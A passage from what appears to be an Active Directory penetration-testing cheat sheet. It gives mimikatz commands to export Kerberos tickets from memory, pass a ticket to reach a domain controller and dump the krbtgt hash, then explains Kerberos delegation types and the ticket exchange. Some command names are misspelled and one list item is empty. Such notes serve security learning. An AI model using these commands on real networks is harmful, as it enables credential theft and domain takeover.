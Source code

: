 For this, we will use our dear friend mimikatz

```bash
# Get the tickets
mimikatz # privilege::debug
mimikatz # sekurla::tickets /export
# Normally under "Group 2 - Ticket Granting Ticket", we should the ticket for the Service Name "krbtgt"
```

Now we can use that ticket through a pass-the-ticket and connect to a Domain Controller

```bash
# Perform a pass-the-ticket with the extracted ticket
mimikatz # kerberos::ptt ..domain.local.kirbi
mimikatz # exit

# Connect to a DC
Enter-PSSession -ComputerName DC.DOMAIN.LOCAL

# We can eventually grab the krbtgt's hash
mimikatz # privilege::debug
mimikatz # seckurlsa::krbtgt
```

#### Resource-Based Constrained Delegation Abuse

There is a blog describing how to perform that [link](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

###### *If you don't know, now you know: [Kerberos Delegation]()*

The usage of Kerberos delegation is to enable an application to access resources hosted on a different server.

Types of Kerberos Delegation:

- Unconstrained Delegation (Windows 2000/2003/2008 Servers can do this type of delegation): This is the original implementation of delegation, and also the least secure. When an object authenticates to a host with unconstrained delegation configured, the ticket-granting ticket (TGT) for that account gets stored in memory.
- Constrained Delegation (Windows 2003/2008 Servers in 2003 Domain Functional Level (or higher) can do this type of delegation): Allows you to configure which services an account can be delegated to.
- Resource-Based Constrained Delegation:

Here are is Kerberos works:

1. Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the **authentication ticket (TGT) request (AS-REQ)**. The Domain Controller (KDC) checks user information (logon restrictions, group membership, etc) & creates **Ticket-Granting Ticket (TGT)**.
2. The **TGT** is encrypted, signed, & **delivered to the user (AS-REP)**. **Only the Kerberos service (KRBTGT) in the domain can open and read TGT data**
3. The User presents the TGT to the DC when requesting a **Ticket Granting Service (TGS) ticket (TGS-REQ)**.
4. The TGS is encrypted using the target service accounts’ NTLM password hash and sent to the user (TGS-REP).
5. The user connects to the server hosting the service on the appropriate port & presents the TGS (AP-REQ). The service opens the TGS ticket using its NTLM password hash.
